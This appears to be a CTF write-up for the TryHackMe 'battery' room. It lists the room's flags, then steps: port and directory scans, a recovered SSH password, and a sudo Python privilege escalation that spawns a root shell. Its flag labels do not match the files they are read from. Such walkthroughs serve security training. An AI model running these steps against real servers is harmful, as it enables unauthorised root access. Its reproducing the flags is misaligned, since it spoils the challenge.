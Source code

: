 # <div align="center">[battery](https://tryhackme.com/r/room/battery)</div>
<div align="center">CTF designed by CTF lover for CTF lovers</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/044f2d97-3571-49d0-811f-cb13b31d4293" height="200"></img>
</div>



## Task 1. battery

Electricity bill portal has been hacked many times in the past , so we have fired one of the employee from the security team , As a new recruit you need to work like a hacker to find the loop holes in the portal and gain root access to the server .

Hope you will enjoy the journey ! 

### Base Flag : 
```
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```
### User Flag :
```
THM{20c1d18791a246001f5df7867d4e6bf5}
```
Root Flag :
```
THM{db12b4451d5e70e2a177880ecfe3428d}
```

# Writeup

* ```nmap -sSCV <IP>```
* ```gobuster dir -u http://<IP> -w /usr/share/dirb/wordlists /common.txt -x txt,php```
* ```<IP>/register.php```
* ```<IP>/report```
* ```strings report```
* ```echo "base64EncodedString" | base64 -d >> output.php```
* ```cyber:super#secure&password!```
* ```ssh cyber@<IP>```
* ```cat flag1.txt```
```
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```

* ```sudo -l```
* ```echo 'import os; os.system("/bin/sh")' > /home/cyber/run.py```
* ```chmod +x run.py```
* ```cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py```
* ```cat /root/root.txt```
```
THM{20c1d18791a246001f5df7867d4e6bf5}
```

* ```cd /home```
* ```ls```
* ```cyber yash```
* ```cd cyber```
* ```ls```
* ```cyber yash```
* ```emergency.py fernet flag2.txt root.txt```
* ```cat flag2.txt```
```
THM{db12b4451d5e70e2a177880ecfe3428d}
```
